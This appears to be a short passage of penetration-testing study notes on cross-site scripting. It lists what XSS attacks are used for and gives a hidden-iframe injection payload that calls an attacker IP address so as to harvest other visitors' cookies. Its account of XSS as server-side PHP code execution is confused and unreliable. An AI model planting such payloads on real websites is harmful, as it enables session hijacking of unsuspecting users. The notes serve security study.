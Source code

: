 # 7.1 Cross Site Scripting \(XSS\)

* Uses of XSS attacks
  * cookie stealing
  * authentication bypass
  * redirecting the victim’s browser to a malicious HTML page
  * etc
* XSS vulnerabilities are caused due to unsanitized user input that is then displayed on a web page in HTML format.
* Like injecting a malicious PHP code inside a PHP page. Such that the malicious code runs on the server.
* XSS vulnerabilities go hand in hand with client side attacks.
* Usually remote shell got in such way of exploit have user "www-data".

### 7.1.1 Browser Redirection and IFRAME Injection

* Uses
  * Client side attacks
  * Information gathering script
* Given an environment which is not the user input are not sanitized.
* We first inject malicious code in the webpage as a script. The webpage could be using javascript, PHP, etc. We inject our code in these scripts.
* To steal **cookie or such information of other client** browsing the same website. We inject a reverse connection scripts
  * `<iframe SRC="http://192.168.1.1:80/report" height = "0" width = "0"></iframe>`
  * where 192.168.1.1 is the attacker system IP address for reverse connection.

### 7.1.2 Stealing Cookies and session information



